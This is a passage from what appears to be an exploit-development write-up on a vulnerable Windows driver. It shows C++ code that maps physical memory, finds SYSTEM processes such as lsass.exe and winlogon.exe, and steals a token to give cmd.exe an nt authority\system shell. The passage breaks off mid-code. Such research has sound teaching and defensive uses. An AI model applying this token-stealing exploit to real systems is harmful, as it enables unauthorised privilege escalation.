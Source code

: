 

The next function takes the returned `proc_data` struct and **re-maps** `0x1000` bytes of physical memory starting at the physical memory address of the "Proc" tag (-`0x4`). The largest header length I found being `0x90`, and the largest offset of interest being `0x450`, we definitely don't need to map this much from this address but I found that mapping anything less would sporadically lead to crashes as it wouldn't be perfectly page-aligned. 

The function knows the "Proc" tag location, the header size, and the offsets for valuable `EPROCESS` members and goes looking for any likely to be `SYSTEM` process as defined in a global vector. 

```cpp
vector<INT64> SYSTEM_procs = {
    0x78652e7373727363,         // csrss.exe
    0x78652e737361736c,         // lsass.exe
    0x6578652e73736d73,         // smss.exe
    0x7365636976726573,         // services.exe
    0x6b6f72426d726753,         // SgrmBroker.exe
    0x2e76736c6f6f7073,         // spoolsv.exe
    0x6e6f676f6c6e6977,         // winlogon.exe
    0x2e74696e696e6977,         // wininit.exe
    0x6578652e736d6c77,         // wlms.exe
};
```



If it finds one of these processes and our `cmd.exe` process it will overwrite the `cmd.exe` `Token` with the `Token` value of a privileged process giving us an `nt authority\system` shell. 

```cpp
INT64 SYSTEM_token = 0;
    INT64 cmd_token_addr = 0;
    bool SYSTEM_found = false;

    LPVOID output_buff = VirtualAlloc(
        NULL,
        0x8,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    for (int i = 0; i < proc_data.proc_address.size(); i++)
    {
        // We need to map 0x1000 bytes from our "Proc" tag so that we can parse
        // out all the EPROCESS members we're interested in. The deepest member
        // is ImageFileName at offset 0x450 from the end of the header. Header
        // sizes varied from 0x20 to 0x90 in my testing. start_address will be
        // the address of the beginning of each 0x1000 aligned address closest
        // to the "Proc" tag we found.
        DWORDLONG num_of_bytes = 0x1000;
        DWORDLONG padding = 0x4141414141414141;
        INT64 start_address = proc_data.proc_address[i];

        INPUT_BUFFER input_buff = { start_address, num_of_bytes, padding };

        DWORD bytes_returned = 0;

        if (DeviceIoControl(
            device_handle,
            IOCTL,
            &input_buff,
            sizeof(input_buff),
            output_buff,
            sizeof(output_buff),
            &bytes_returned,
            NULL))
        {
            // Pointer to the beginning of our process space with the mapped
```